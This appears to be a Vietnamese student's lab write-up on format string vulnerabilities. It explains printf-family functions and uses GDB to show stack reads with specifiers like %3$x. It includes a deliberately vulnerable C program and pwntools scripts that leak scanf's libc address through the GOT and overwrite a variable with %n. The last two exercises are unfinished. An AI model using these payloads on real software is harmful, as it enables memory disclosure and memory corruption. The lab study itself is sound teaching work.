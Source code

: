 # Format string
## Câu 1
### Question
Điền giới thiệu về các hàm trên bảng.

### Answer
| Hàm | Giới thiệu |
|---|---|
| `printf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào và in chuỗi đó ra stdout. |
| `fprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào và in chuỗi đó ra một output stream.|
| `vprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và in chuỗi đó ra stdout.|
| `vfprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và in chuỗi đó ra một output stream.|
| `sprintf` | Tạo một chuỗi từ định dạng và đối số cho trước và xuất chuỗi đó ra một mảng ký tự.|
| `snprintf` | Tạo một chuỗi từ định dạng và đối số cho trước và xuất chuỗi đó ra một mảng ký tự với giới hạn số lượng ký tự được xuất ra.|
| `vsprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và xuất chuỗi đó ra một mảng ký tự.|
| `vsnprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và xuất chuỗi đó ra một mảng ký tự với giới hạn số lượng ký tự được xuất ra.|
| `setproctitle` | Đặt tên cho tiến trình sử dụng format string để tạo chuỗi tên. |
| `syslog` | Tạo log message để truyền vào system logger. Log message được tạo từ format string. |
| `err`, `verr`, `warn`, `vwarn` | Hiển thị error message. Error message được tạo từ format string. |

## Câu 2
### Question
Dùng GDB để debug và nhập giá trị `%3$x`.

### Answer
- Khi tiến trình chạy đến bước `printf(s)`, stack sẽ như sau:  

![image](https://user-images.githubusercontent.com/44528004/143236001-c1c91a66-a374-4262-a79d-3b016fdbe6d2.png)

- Kết quả chạy là:  

![image](https://user-images.githubusercontent.com/44528004/143236049-03b9b3a5-e6cc-451b-8740-806a14286986.png)

- Từ đây ta thấy được rằng `3$` sẽ tương ứng với đối số thứ 3 được truyền vào `printf`. Tuy nhiên, do chúng ta không truyền vào đối số nào cả nên tiến trình sẽ lấy giá trị cách đó 12 bytes ở phía trên của stack. Dựa vào stack bên trên, `0xffffd064` có giá trị `0xffffd070` là đối số 1, `0xffffd068` có giá trị `0xf7fc9410` là đối số 2, và `0xffffd06c` có giá trị `0x0804918d` là đối số 3.
- Vậy nếu `s = %08x.%08x.%08x` thì chương trình sẽ in ra `ffffd070.f7fc9410.0804918d`.
- Và nếu `s = %3$x` thì chương trình sẽ in ra giá trị của đối số thứ 3 là `0804918d`.


## Câu 3
### Question
Dùng GDB để debug và phân t ích tại sao có địa chỉ của `scanf`.

### Answer
- Ban đầu, khi ta truyền vào `AAAA%4$s`, chương trình bị treo vì khi hàm `printf('AAAA%4$s')` được thực thi, chương trình sẽ cố gắng truy xuất vào vùng nhớ `0x41414141` nhằm đọc các ký tự từ địa chỉ này để in ra màn hình. Tuy nhiên, `0x41414141` là vùng nhớ không thể truy xuất được nên chương trình bị treo.
> Specifier `%s` mong đợi đối số truyền vào là địa chỉ bắt đầu của chuỗi ký tự nên `printf` sẽ truy xuất đến vùng địa chỉ này để lấy giá trị.
- Trong trường hợp 4 bytes đầu của payload là địa chỉ của `__isoc99_scanf_got`, vì GOT nằm ở data segment mà data segment thì chương trình có thể truy xuất được nên sẽ không xảy ra lỗi. Bên cạnh đó, entry của `scanf` trên GOT trỏ tới địa chỉ thực của `scanf` trên libc nên ta thành công trong việc truy xuất vào địa chỉ thực của `scanf` trên libc.
- Script:  
```python
from pwn import *


sh = process('./leak')
e = ELF('./leak')

__isoc99_scanf_got = e.got['__isoc99_scanf']
print(hex(__isoc99_scanf_got))

payload = p32(__isoc99_scanf_got) + b'%4$s'
print(payload)

with open('payload.in', 'wb') as f:
    f.write(payload)

sh.sendline(payload)
sh.recvuntil(b'%4$s\n')
print(hex(u32(sh.recv()[4:8])))
sh.interactive()
```
- Trong mốt số trường hợp địa chỉ của `scanf` trong libc có chứa các byte đặc biệt như `0a`, `0b`, `0c`, `00`, ... thì `printf` sẽ terminate việc in chuỗi trên.
- Ví dụ khi chạy script exploit và dùng gdb để debug thì ta thấy rằng địa chỉ thực của `scanf` trên libc hiện tại đang là `0xf7e17300` và khi in ra ở little endian, byte `0x00` sẽ được đưa lên đầu và chuỗi sẽ bị terminate. Việc này dẫn tới việc script không in ra địa chỉ của `scanf` ra màn hình.  

  ![image](https://user-images.githubusercontent.com/44528004/143276062-c255d0e9-046f-4456-b7cf-cb8b6a3f60c3.png)

  ![image](https://user-images.githubusercontent.com/44528004/143276331-27f89422-1423-4ca2-b6d8-7edb4caaa0e8.png)

## Câu 4
Ta có đoạn code sau:
```c
#include <stdio.h>

int a = 123, b = 456;

int main() {
        int c = 789;
        char s[100];
        printf("%p\n", &c);
        scanf("%s", s);
        printf(s);
        if (c == 16) {
                puts("modified c.");
        }
        else if (a == 2) {
                puts("modified a for a small number.");
        }
        else if (b == 0x12345678) {
                puts("modified b for a big number!");
        }
        return 0;
}
```

- Ở đây, mục đích của ta là ghi đè giá trị của `c` thành 16 thì ta cần truyền vào payload có dạng `[overwriten_addr][padding]%[offset]$n`. Cụ thể hơn, payload để khai thác chương trình này sẽ là `addr_c%012d%6$n`.
    - `addr_c` là địa chỉ của biến `c`.
    - `%012d` sẽ khiến đọc 4 bytes tiếp theo trên stack và thêm padding để tạo thành 12 bytes.
    - `%6$n` sẽ đếm tổng số bytes đã đọc được ở thời điểm hiện tại và lưu vào đối số thứ 6. Với đối số thứ 6 này địa chỉ bắt đầu của buffer và đang trỏ tới địa chỉ của biến `c`. Do đó, tổng số bytes đã được đọc bởi `printf` là 16 sẽ được lưu vào địa chỉ của biến `c` và `c` sẽ bằng 16.

- Script exploit:  

```python
from pwn import *


def for_c():
    sh = process('./overwrite')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print(hex(c_addr))

    payload = p32(c_addr) + b'%012d' + b'%6$n'
    print(payload)

    with open('payload.in', 'wb') as f:
        f.write(payload)

    sh.sendline(payload)
    print(sh.recv())
    sh.interactive()


for_c()
```

- Kết quả exploit:  

![image](https://user-images.githubusercontent.com/44528004/143288425-b2124f91-79e4-4085-b91d-59aa97a8f282.png)

> Tip: Trong trường hợp địa chỉ muốn ghi đè chứa các byte đặc biệt, ta có thể cân nhắc chuyển địa chỉ ghi đè về cuối payload.

## Câu 5
- Để ghi đè biến `a` thành `2`, ta cần đặt địa chỉ ghi đè về cuối payload vì địa chỉ chiếm 4 bytes nên `%n` sẽ luôn trả về giá trị >= 4.
- Script exploit:  

```python
```

## Câu 6
